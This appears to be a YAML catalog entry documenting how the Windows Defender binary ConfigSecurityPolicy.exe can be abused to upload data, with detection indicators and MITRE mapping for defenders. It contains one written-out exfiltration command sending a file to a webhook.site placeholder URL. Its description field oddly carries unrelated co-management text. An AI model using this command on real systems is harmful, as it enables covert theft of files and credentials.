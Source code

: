 ```yaml
---
Name: ConfigSecurityPolicy.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender. you can configure different pilot collections for each of the co-management workloads. Being able to use different pilot collections allows you to take a more granular approach when shifting workloads.
Author: "Ialle Teixeira"
Created: "04/09/2020"
Commands:
  - Command: ConfigSecurityPolicy.exe C:\\Windows\\System32\\calc.exe https://webhook.site/xxxxxxxxx?encodedfile
    Description: Upload file, credentials or data exfiltration in general
    Usecase: Upload file
    Category: Upload
    Privileges: User
    MitreID: T1567
    MitreLink: https://attack.mitre.org/techniques/T1567/
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\ConfigSecurityPolicy.exe
Code_Sample:
  - Code:
Detection:
  - IOC: ConfigSecurityPolicy storing data into alternate data streams.
  - IOC: Preventing/Detecting ConfigSecurityPolicy with non-RFC1918 addresses by Network IPS/IDS.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching ConfigSecurityPolicy.exe.
  - IOC: User Agent is "MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)"
Resources:
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-switch-workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-monitor
  - Link: https://twitter.com/NtSetDefault/status/1302589153570365440?s=20
Acknowledgement:
  - Person: Ialle Teixeira
    Handle: "@NtSetDefault"
---
```

